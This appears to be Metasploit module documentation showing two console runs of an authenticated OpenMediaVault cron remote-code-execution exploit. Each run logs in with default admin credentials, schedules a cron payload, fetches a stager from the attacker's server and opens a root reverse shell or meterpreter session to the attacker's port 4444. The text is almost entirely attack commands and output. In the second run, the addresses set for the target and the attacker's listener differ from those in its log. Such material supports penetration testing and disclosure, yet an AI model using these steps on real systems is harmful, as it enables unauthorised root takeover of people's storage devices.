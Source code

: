 ### openmediavault_7.0-32-amd64.iso appliance Linux Dropper -  linux/x64/meterpreter/reverse_tcp
```msf
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set target 1
target => 1
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.201.6:80 - Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target is vulnerable. Version 7.0.pre.32
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/cYSPpwJI3FXafxL
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Client 192.168.201.6 (Wget/1.21.3) requested /cYSPpwJI3FXafxL
[*] Sending payload to 192.168.201.6 (Wget/1.21.3)
[*] Sending stage (3045380 bytes) to 192.168.201.6
[+] Cron payload entry successfully removed.
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.6:44398) at 2024-07-03 12:53:49 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : openmediavault.local
OS           : Debian 12.5 (Linux 6.1.0-18-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
###  openmediavault 7.3.0-5 ARM64 Raspberry PI-4 Unix command - cmd/unix/reverse_bash
```msf
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set target 0
target => 0
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set rhosts 192.168.1.10
rhosts => 192.168.1.10
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > set lhost 192.168.1.8
lhost => 192.168.1.8
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target appears to be vulnerable. Version 7.3.0.pre.5
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[+] Cron payload entry successfully removed.
[*] Command shell session 8 opened (192.168.201.8:4444 -> 192.168.201.10:50292) at 2024-07-01 20:14:07 +0000

pwd
/root
uname -a
Linux cerberus 5.15.44-Re4son-v8l+ #1 SMP PREEMPT Debian kali-pi (2022-07-03) aarch64 GNU/Linux
```